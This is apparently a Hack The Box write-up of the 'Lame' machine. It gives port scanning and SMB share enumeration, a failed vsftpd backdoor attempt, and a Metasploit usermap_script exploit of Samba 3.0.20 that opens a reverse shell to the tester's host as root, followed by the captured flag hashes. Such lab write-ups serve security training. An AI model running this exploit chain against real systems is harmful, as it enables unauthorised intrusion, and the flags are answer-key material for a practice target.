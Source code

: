 # HTB: Lame
**Date:** 2025-07-02

## 🔍 Enumeration
```bash
nmap -p- --min-rate=1000 -T4 10.10.10.3
```
**Results:**
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```

### SMB Enumeration
```bash
smbmap -H 10.10.10.3
```
**Results:**
```
[+] IP: 10.10.10.3:445	Name: 10.10.10.3          	Status: Authenticated
	Disk    | Permissions | Comment
	--------|-------------|--------------------------
	print$  | NO ACCESS   | Printer Drivers
	tmp     | READ, WRITE | oh noes!
	opt     | NO ACCESS   | 
	IPC$    | NO ACCESS   | IPC Service (Samba 3.0.20-Debian)
	ADMIN$  | NO ACCESS   | IPC Service (Samba 3.0.20-Debian)
```

```bash
smbclient -N \\10.10.10.3\tmp
```
Successfully connected and browsed the `tmp` share.

---

## 💥 Exploitation

### FTP – Vsftpd 2.3.4 (CVE-2011-2523)
- **Exploit Used:** `exploit/unix/ftp/vsftpd_234_backdoor`
- **Outcome:** Not exploitable — port 6200 blocked by firewall.

### SMB – Samba 3.0.20-Debian (CVE-2007-2447)
- **Exploit Used:** `exploit/multi/samba/usermap_script`  
- **Vulnerability:** Username map script command execution  
- **Payload:** Reverse TCP shell via Metasploit

```bash
msf6 > use exploit/multi/samba/usermap_script
```
```
[*] Started reverse TCP handler on 10.10.16.5:4444 
[*] Command shell session 1 opened (10.10.16.5:4444 -> 10.10.10.3:43580)
```

## ⚙️ Privilege Escalation
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
id
uid=0(root) gid=0(root)
```

**Flags:**
```bash
cat /home/makis/user.txt
e95ac31f8132e26eac44c2fe58792cfa

cat /root/root.txt
4f8f2ae18815f97ffdf7975965d6b624
```

---

## 🛠️ Tools Used
- `nmap`, `smbmap`, `smbclient`, `metasploit`, `searchsploit`, `nc`, `netstat`

---

## 🧠 Key Takeaways
- Exploiting outdated Samba services is still viable on legacy boxes.
- Port filtering can block shell return paths even if a vuln exists (FTP port 6200).
- Always enumerate SMB shares even without creds — `smbclient` often provides an initial foothold.
- Samba CVE-2007-2447 is a classic — worth mastering for CTFs and exams like OSCP.